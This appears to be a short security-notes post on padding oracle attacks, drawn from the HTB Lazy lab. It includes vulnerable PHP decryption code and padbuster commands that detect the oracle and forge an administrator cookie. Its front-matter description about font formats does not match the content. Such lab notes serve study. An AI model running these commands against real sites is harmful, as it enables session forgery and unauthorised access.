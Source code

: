 ```yaml
---
layout: post
title: Padding Oracle Attack
description: What is the difference between various font formats?
summary: What is the difference between various font formats?
tags: [web,crypto,foothold]
minute: 1
---
```


## Overview
CBD mode PKCS7 format uses padding to complete the block length when encrypting plaintext.

![](Padding%20Oracle%20Attack/padding.png)

Attacker can leverage this behaviour to get the plaintext by manipulating the ciphertext byte by byte in a trial and error fashion and observing whether the application will return error (invalid padding) or success (valid padding).

This kind of crypto may be safe but the real attack surface is on whether your app is returning error on invalid padding which will give an attacker chance to brute force the correct plaintext.

```php
// example file from HTB lazy
function decryptString($encryptedText, $passphrase) {
  $encrypted = base64_decode($encryptedText);
  $iv_size =  mcrypt_get_iv_size(MCRYPT_DES, MCRYPT_MODE_CBC);
  $iv = substr($encrypted,0,$iv_size);
  $dec = mcrypt_decrypt(MCRYPT_DES, $passphrase, substr($encrypted,$iv_size), MCRYPT_MODE_CBC, $iv);
  $str = pkcs5_unpad($dec); 
  if ($str === false) {
    echo "Invalid padding"; // really? you want to be hacked?
    die();                  // maybe let's replace that or
  }                         // remove entirely?
  else {
    return $str; 
  }
}
```

This is also a type of CCA or Chosen Ciphertext Attack.

## Details on ciphertext manipulation
Go to "The Theory" part of this [link](https://pentesterlab.com/exercises/padding_oracle/course).

## Detection
* Try manipulating cookie values. See if webapp will error response such as `invalid padding` or `500`,

## Exploitation
* Using padbuster

```bash
# installation
sudo apt-get install padbuster

# detection
padbuster http://10.10.10.10/index.php "RVJDQrwUdTRWJUVUeBKkEA==" 8 -encoding 0 -cookies "login=RVJDQrwUdTRWJUVUeBKkEA=="

# gets an admin cookie
padbuster http://10.10.10.10/index.php "RVJDQrwUdTRWJUVUeBKkEA==" 8 -encoding 0 -cookies "login=RVJDQrwUdTRWJUVUeBKkEA==" -plaintext "user=administrator"
```

* Using [bit flippingattack](https://0xdf.gitlab.io/2020/07/29/htb-lazy.html#path-2-bit-flip-attack). Here is another resource from [ippsec](https://www.youtube.com/watch?v=3VxZNflJqsw&t=460s) using Burp.

## References
* [Padding Oracle - HackTricks](https://book.hacktricks.xyz/cryptography/padding-oracle-priv#padding-oracle)
* [HTB Lazy](https://www.youtube.com/watch?v=3VxZNflJqsw)
* [Mathematical Explanation](https://www.youtube.com/watch?v=aH4DENMN_O4&t=873s)
* [The Padding Oracle Attack](https://robertheaton.com/2013/07/29/padding-oracle-attack/) 
